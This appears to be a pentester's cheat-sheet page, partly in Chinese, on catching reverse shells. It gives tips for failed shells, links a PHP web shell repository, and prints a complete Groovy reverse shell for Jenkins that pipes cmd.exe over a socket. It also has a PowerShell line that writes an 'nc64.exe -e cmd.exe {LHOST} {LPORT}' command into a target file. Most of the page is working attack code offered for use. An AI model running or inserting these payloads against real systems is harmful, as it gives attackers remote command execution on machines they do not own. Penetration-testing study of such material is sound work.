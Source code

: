  - 在回弹shell时，可能会出现:
	 1. port block
	 2. a Low interactivity Shell Can Cause Problems.(especially in windows)
	 3. Privesc - file owner/group could be limited when trigger payload.
	 4. debug: output to file; always follow the exploit step;
	 5. try: change port -> payload -> change method;
Another web shell: https://github.com/WhiteWinterWolf/wwwolf-php-webshell
# Groovy Reverse Shell
For Jenkins
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
# nc64 - windows
```powershell
echo C:\{pwd}\nc64.exe -e cmd.exe {LHOST} {LPORT} > C:\{pwd}\{target_file}
```